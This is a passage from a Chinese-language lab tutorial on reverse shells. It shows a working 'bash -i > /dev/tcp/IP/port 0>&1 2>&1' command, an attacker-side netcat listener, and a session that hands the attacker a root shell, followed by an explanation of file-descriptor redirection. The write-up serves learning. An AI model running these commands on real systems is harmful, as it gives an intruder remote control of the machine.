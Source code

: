 ```bash
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:36792.
hostname        //第三步（攻击端执行命令）
victim
id        //第四步（攻击端执行命令）
uid=0(root) gid=0(root) groups=0(root)
hahaha        //第五步（执行一个错误的命令）
```
//测试3结果：基本实现了反弹shell的功能。但是受害端的机器上依然回显了攻击者机器上执行的命令，且攻击端看不到错误命令的输出。
测试4（将上面三个测试结合。将标准输入、标准输出、错误输出全都重定向到攻击端）：

受害端：

[root@victim ~]# bash -i > /dev/tcp/10.201.61.194/5566 0>&1 2>&1        //第二步。或 # bash -i &> /dev/tcp/10.201.61.194/5566 0>&1  （注：&>或>& 表示混合输出，即标准输出1 + 错误输出2）

攻击端：
```bash
[root@hacker ~]# nc -lvp 5566        //第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:51182.
[root@victim ~]# hostname        //第三步。测试4结果：攻击端已获得受害端的远程交互式shell，而且受害端没有再回显攻击端输入的命令~
hostname
victim
```
//PS：由测试3、测试4对比可见，标准错误2不仅显示错误信息的作用，居然还有回显输入命令和终端提示符的作用~~~
总结：

本文整理了反弹shell的一些资料并通过实验理解反弹shell原理。深入理解文件描述符和重定向才能更好弄懂反弹shell~